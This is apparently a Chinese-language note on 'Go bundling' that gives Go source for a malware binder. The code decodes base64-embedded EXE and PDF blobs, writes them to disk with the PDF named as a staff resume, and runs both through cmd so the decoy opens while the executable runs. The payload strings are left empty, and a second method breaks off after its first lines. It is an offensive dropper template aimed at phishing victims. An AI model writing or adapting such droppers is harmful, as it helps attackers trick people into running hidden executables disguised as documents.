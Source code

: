 <a name="fi0Zh"></a>
## go 捆绑
<a name="ZCfzi"></a>
### 方式一：base字节流转换
```java
package main


import (
    "encoding/base64"
    "io/ioutil"
    "strings"
	"os/exec"
    "fmt"
)

func main(){
    P2 :=""
    P1 :=""
    work :=[]string{P2,P1} //first exe, then pdf ,because the exe littler than pdf, P2 = PDF P1 = EXE
    //path :=[]string{"d:\\vscode\\go\\bypass_certutil\\1.exe","d:\\vscode\\go\\bypass_certutil\\2.pdf"}
    path :=[]string{"C:\\Users\\testgo.exe","C:\\王小明_管理部门简历.pdf"}
    for i :=0;i < 2;i++ {
        test123(work[i],path[i])
    }

    fmt.Println("end")
}
func test123(work string,path string) {
    reader := strings.NewReader(work)
    decoder := base64.NewDecoder(base64.StdEncoding, reader)
    // 以流式解码
    buf := make([]byte, 2)
    // 保存解码后的数据
    dst := ""
    for {
        n, err := decoder.Read(buf)
        if n == 0 || err != nil {
            break
        }
        dst += string(buf[:n])
    }
    err := ioutil.WriteFile(path, []byte(dst), 0666)
	if err == nil{
        Go := exec.Command("cmd","/c ",path)
        err := Go.Run()
        if err != nil {
            fmt.Println(err)
        }
        fmt.Println(path)
	}
}

```
<a name="ONX17"></a>
### 方式二：静态资源嵌入
```html
package main

import (
```